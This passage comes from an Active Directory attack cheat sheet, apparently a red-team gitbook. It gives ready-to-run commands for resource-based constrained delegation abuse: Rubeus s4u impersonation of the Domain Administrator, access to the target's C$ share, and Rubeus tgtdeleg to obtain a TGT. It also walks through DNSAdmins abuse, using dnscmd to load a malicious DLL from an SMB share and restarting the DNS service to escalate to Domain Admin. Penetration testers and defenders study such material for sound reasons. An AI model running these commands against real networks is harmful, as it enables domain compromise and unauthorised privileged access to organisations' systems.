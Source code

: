 And for this example, we are going to impersonate Domain Administrator on the cifs service of the target computer using Rubeus

```
Rubeus.exe s4u /user:<MachineAccountName> /rc4:<RC4HashOfMachineAccountPassword> /impersonateuser:Administrator /msdsspn:cifs/TargetMachine.wtver.domain /domain:wtver.domain /ptt
```

Finally we can access the C$ drive of the target machine

```
dir \\TargetMachine.wtver.domain\C$
```

Detailed Articles:

* [Wagging the Dog: Abusing Resource-Based Constrained Delegation to Attack Active Directory](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [RESOURCE-BASED CONSTRAINED DELEGATION ABUSE](https://blog.stealthbits.com/resource-based-constrained-delegation-abuse/)

In Constrain and Resource-Based Constrained Delegation if we don't have the password/hash of the account with TRUSTED\_TO\_AUTH\_FOR\_DELEGATION that we try to abuse, we can use the very nice trick "tgt::deleg" from kekeo or "tgtdeleg" from rubeus and fool Kerberos to give us a valid TGT for that account. Then we just use the ticket instead of the hash of the account to perform the attack.

Command on Rubeus

```
Rubeus.exe tgtdeleg /nowrap
```

Detailed Article: [Rubeus – Now With More Kekeo](https://www.harmj0y.net/blog/redteaming/rubeus-now-with-more-kekeo/)

### DNSAdmins Abuse

_What is this?: If a user is a member of the DNSAdmins group, he can possibly load an arbitary DLL with the privileges of dns.exe that runs as SYSTEM. In case the DC serves a DNS, the user can escalate his privileges to DA. This exploitation process needs privileges to restart the DNS service to work._

1\) Enumerate the members of the DNSAdmins group:

* PowerView: `Get-NetGroupMember -GroupName "DNSAdmins"`
*   AD Module: `Get-ADGroupMember -Identiny DNSAdmins`

    2\) Once we found a member of this group we need to compromise it (There are many ways).

    3\) Then by serving a malicious DLL on a SMB share and configuring the dll usage,we can escalate our privileges:

Using dnscmd:

```
dnscmd <NameOfDNSMAchine> /config /serverlevelplugindll \\Path\To\Our\Dll\malicious.dll
```

Restart the DNS Service:

```
sc \\DNSServer stop dns
sc \\DNSServer start dns
```
